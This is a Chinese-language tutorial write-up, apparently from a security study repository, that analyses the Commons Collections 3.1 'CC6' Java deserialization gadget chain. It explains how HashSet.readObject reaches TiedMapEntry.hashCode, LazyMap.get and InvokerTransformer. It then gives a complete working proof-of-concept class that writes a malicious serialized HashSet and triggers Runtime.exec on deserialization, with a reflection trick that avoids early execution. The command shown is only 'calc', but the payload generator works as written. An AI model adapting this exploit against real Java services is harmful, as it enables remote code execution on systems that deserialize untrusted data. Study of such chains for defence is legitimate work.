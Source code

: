 # 环境搭建

- JDK 1.8
- Commons Collections 3.1

```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
</dependencies>
```

# 利用链分析

**利用链**

```
Gadget chain:
        java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            ...
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
    by @matthias_kaiser
*/
```

在CC5中,我们通过toString来回调了TiedMapEntry.getValue方法,但是这个类还有另外一个hashCode方法也能调用getValue方法

![image-20220127114952220](images/1.png)

那就去找一个调用hashCode的地方,还记得在复现URLDNS链的时候我们去调用了URL.hashCode方法

同样的找到了HashMap的hash方法去调用hashCode

![image-20220127115219825](images/2.png)

当时是通过HashMap重写的readObject来触发hash函数的,但是在CC6中都是利用HashSet重写的readObject方法调用put在调用hash方法

```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

HashSet中readObject方法

![image-20220127115534888](images/3.png)

因为e这个变量是从readObject中读出来的,可以在序列化是就添加进去,可以直接利用HashSet的add函数

这里的e就是hashCode的Key参数,应该为TiedMapEntry对象

对应的poc代码

```
TiedMapEntry tiedMap = new TiedMapEntry(outmap,123);
HashSet hashset =  new HashSet();
hashset.add(tiedMap);
```

不过这个add方法要注意了

```
public boolean add(E e) {
    return map.put(e, PRESENT)==null;
}
```

发现他也会调用一次put方法,会和我们原本的利用链走的路径一样也会进行一次命令执行

所以这里为了区分,我们就写两个命令执行的代码,真正反序列化执行的代码在add方法后通过反射修改

所以最后的poc

```
package CC6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC6payload {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer[] faketransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"notepad.exe"})
        };
        ChainedTransformer chain = new ChainedTransformer(faketransformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,123);
        HashSet hashset =  new HashSet();
        hashset.add(tiedMap);
        outmap.remove(123);

        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain, transformers);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC6.bin"));
        os.writeObject(hashset);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC6.bin"));
        fos.readObject();
    }
}
```

这里发现和之前有区别的一个地方是多了应该remove方法

因为我们add方法也会调用到LazyMap的get方法

```
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

之前我们都只调用过一次LazyMap方法,只关注了进入if调用transform方法

但是这个if进去后会对我们传入的key添加一个value也就是一个映射,所以当第二次执行到这个get方法的时候,map.containsKey(key)的返回值会为true,不会进入if,所以我们在执行完add方法后要删除这个key对应的映射

这样在反序列化的时候才会进入if

# 漏洞复现

![image-20220127121707053](images/4.png)

add执行的虚假命令和我们最后要执行的命令都执行成功

# 注意的问题

add方法也会执行一次命令,所以需要区分前面命令的差异并且删除掉get方法添加的映射以便反序列化的时候进入if执行真正要执行的命令

